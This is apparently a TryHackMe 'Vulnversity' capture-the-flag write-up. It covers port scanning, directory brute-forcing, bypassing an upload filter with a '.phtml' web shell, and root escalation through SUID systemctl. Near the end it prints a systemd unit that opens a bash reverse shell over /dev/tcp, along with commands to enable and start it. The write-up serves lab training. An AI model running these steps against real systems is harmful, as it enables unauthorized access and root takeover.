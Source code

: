 # TryHackMe - Vulnversity

## Tasks

- [x] Reconnaissance
- [x] Locating directories using GoBuster 
- [x] Compromise the webserver 
- [x] Privilege Escalation

## Skills Learned

- Port Scanning and Service Enumeration
- File Upload Restriction Bypass
- Privileges 

---

# # Task 1: Reconnaissance 

Reconnaissance is act of gathering information about the target. 

## Practical

### Nmap

Port scan with nmap

![1d1166f1df36477c0481153e9b4b496d.png](_resources\5c6bb67840e94c87befa6cc5c0fc7c54.png)

Scan through all port

```
nmap -p- --min-rate 1000 -oN all-port 10.10.231.160 -v
```

![ca10d8e44625cef38ea6be3a16f8f849.png](_resources\ae01612d2a3b470aadec519e84617b87.png)

Determine the services' version

```bash
nmap -p21,22,139,445,3128,3333 -sC -sV -oN all-port-scan 10.10.231.160 -v
```

## Questions

![6cfd513425cca8de18e828d4e6aeb443.png](_resources\3c30c14785644f9d8b08f0797d4d2e21.png)

# # Task 2: Locating directories using GoBuster 

## Practical

### Gobuster

Perform a directory brute force

```bash
gobuster dir -u http://10.10.231.160:3333 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o discovered.txt
```

![98f7337b2a06c617531d63f87e6932c4.png](_resources\2e97316d8e33467990e0e2b516911f72.png)

## Questions

![c8ae9808ee8ee657bf52e79f61420a5a.png](_resources\d1cd1eaa9168482d869328121ef3728b.png)

# # Task 3:  Compromise the webserver 

## Practical

### Fuzzing file extension  to bypass the extension filter

Failed upon uploading a web shell to `http://machine_ip:3333/internal/index.php`, extension is not allowed

![38103265ff226ec22d1af4e27add68ed.png](_resources\6f92a893665c40b4ae99df6a52a50b7d.png)

Fuzzing the file extension with BurpSuite

![9bba3d03abb99098428a6c7039553cee.png](_resources\aee12aca45e341c6a092853c79df5d41.png)

Used wordlist

![6ef65443dd45b444d2c09f3ba0b36d8e.png](_resources\7242d06ca3af4558b4232e20a4be0125.png)

One of the results shows different length.

![4a64d3a359f0ef4e0e1213ca9265c9c0.png](_resources\52cc839834f649af8f7c38273fd7d915.png)

Reuploading the web shell with newer extension, `phtml`

![2ec6da3c8767e4b27c51220bbfb258b7.png](_resources\7d355abc6f1446f8bcfe8cc79727e54b.png)

Determine upload location with directory bruteforce using `gobuster`

![dc84ba97630550ba19ce63add027292b.png](_resources\88eb323f28c849dd9ca4a8c3ba2f013a.png)

The upload directory located on `http://machine_ip:3333/internal/uploads/`  

![96fd6d16bf89b38f5435323d0eb0d633.png](_resources\d02e322229e44537b3063ac0ab2138f3.png)

Accessing the web shell returns a reverse shell.

![7ee43fbc3e31fd11c31a6064202e339f.png](_resources\57aad1e798cb4d95b2c393acd01021f6.png)

## Questions

![bfd8bc27944b17eca0666dcc17f978c2.png](_resources\7cc5b89c9930495f9bef56ba009965e2.png)

![56683666ea822cda7c513c2ef6cbde50.png](_resources\0e75f11df885455499f0c27c4818cc10.png)

![207b122b2498ab2e6b16f27cd3212d8b.png](_resources\e7c760b9257241b4876e70ad05d3c377.png)

![72dbfa05ac31adc2c46d4ea97d82234a.png](_resources\7c85718eb4df40f78db1f13e288f0ba7.png)

# #4 Privilege Escalation

Privilege escalation is act of searching potential vector such as exploit bugs, system flaws, or abusing misconfiguration to gain higher privileges (root or administrator) 

There are two types of privilege escalation:

- Horizontal Privilege Escalation, user level to another user
- Vertical Privilege Escalation, user level to super user (root/admin/system)

## Practical

### Privilege Escalation with SUID binary - systemctl

> SUID (set owner userId upon execution)

The **find** command can be used to find binary with SUID bit

```
$ find / -type f -perm -u=s 2>/dev/null | grep -v proc
```

`systemctl` is a utility for managing system and service in Linux. With SUID bit set, it offers a potential [privesc](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) vector.

![c4c2fcba4ad579ba0f626340da39067d.png](_resources\d52a2f3ed3c4435abd3fc35544d011ae.png)


Steps:

1. Create a root.service

   ```
   [Unit]
   Description=im groot
   
   [Service]
   Type=simple
   User=root
   ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'
   
   [Install]
   WantedBy=multi-user.target
   ```

2. Host and download it on the target

   ![66a4d593472f33fe22893f5e5b4ef4fc.png](_resources\e890907bf17345f9b4f042b19a7ae1c7.png)

   ![f80d5024437848823cd690f666c70784.png](_resources\49c3b280e284446da2ff3f840332d417.png)

3. Enable root.service and start service

   ```bash
   $ /bin/systemctl enable /dev/shm/root.service
   $ /bin/systemctl start root
```
   
4. Check the listener

![ff7d4260e110a28da6f630dd3bc15cf9.png](_resources/0bed6439af0d4a64a1ad6f3bc63b3267.png)